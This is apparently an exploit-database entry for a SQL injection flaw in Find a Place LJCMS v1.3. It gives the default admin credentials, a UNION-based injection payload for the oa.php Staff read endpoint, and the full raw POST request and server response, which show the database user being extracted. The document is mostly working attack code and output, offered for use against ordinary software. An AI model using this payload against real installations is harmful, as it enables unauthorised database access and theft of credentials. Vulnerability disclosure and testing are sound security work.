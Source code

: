 # Exploit Title: Find a Place LJCMS v 1.3 - 'http://127.0.0.1/oa.php?c=Staff&a=read cate' SQL Injection
# Date: 2020.02.20
# Exploit Author: ZEO
# Author EMail: 876054426@qq.com
# CVE : N/A

# Description:
----------------------
Find a Place LJCMS v 1.3 suffers from a SQL Injection vulnerability.

# POC:
----------------------
1. Normal installation CMS, log in OA system

The default account:admin pass:admin
2. Access the following pat https://[PATH]/oa.php?c=Staff&a=read
3. You can perform a "Generic UNION query" and extract admin credentials by sending a "POST" request using the payload below

id=11) UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,CONCAT(0x71786a6271,IFNULL(CAST(CURRENT_USER() AS CHAR),0x20),0x716b627871),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- dbyJ

# Request:
---------------------
POST http://127.0.0.1/oa.php?c=Staff&a=read HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 242
Origin: http://127.0.0.1
Connection: close
Referer: http://127.0.0.1/oa.php?c=Staff&a=read
Cookie: Hm_lvt_2a935166b0c9b73fef3c8bae58b95fe4=1581988739,1582017176,1582186745,1582248494; Hm_lvt_f3629ea9febe137b2cbf94c870fa85ce=1581991340,1582011232,1582187168; PHPSESSID=0djaeiqm2qqi35bhrlqq4cng80; Hm_lpvt_2a935166b0c9b73fef3c8bae58b95fe4=1582248500
Upgrade-Insecure-Requests: 1

id=11%29+UNION+ALL+SELECT+NULL%2CNULL%2CNULL%2CNULL%2CNULL%2CCONCAT%280x71786a6271%2CIFNULL%28CAST%28CURRENT_USER%28%29+AS+CHAR%29%2C0x20%29%2C0x716b627871%29%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL--+dbyJ


# Response:
----------------------
HTTP/1.1 200 OK
Date: Fri, 21 Feb 2020 02:13:19 GMT
Server: Apache/2.4.23 (Win32) OpenSSL/1.0.2j mod_fcgid/2.3.9
X-Powered-By: PHP/7.2.1
X-Xdebug-Profile-Filename: D:\phpStudy\PHPTutorial\tmp\xdebug\cachegrind.out.1582251199.10712
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Connection: close
Content-Type: text/html; charset=utf-8
Content-Length: 296

{"data":[{"id":null,"emp_no":null,"name":null,"letter":null,"dept_id":null,"position_id":"qxjbqroot@localhostqkbxq","email":null,"duty":null,"office_tel":null,"mobile_tel":null,"pic":null,"birthday":null,"sex":null,"password":null,"is_del":null,"position_name":null,"dept_name":null}],"status":1}


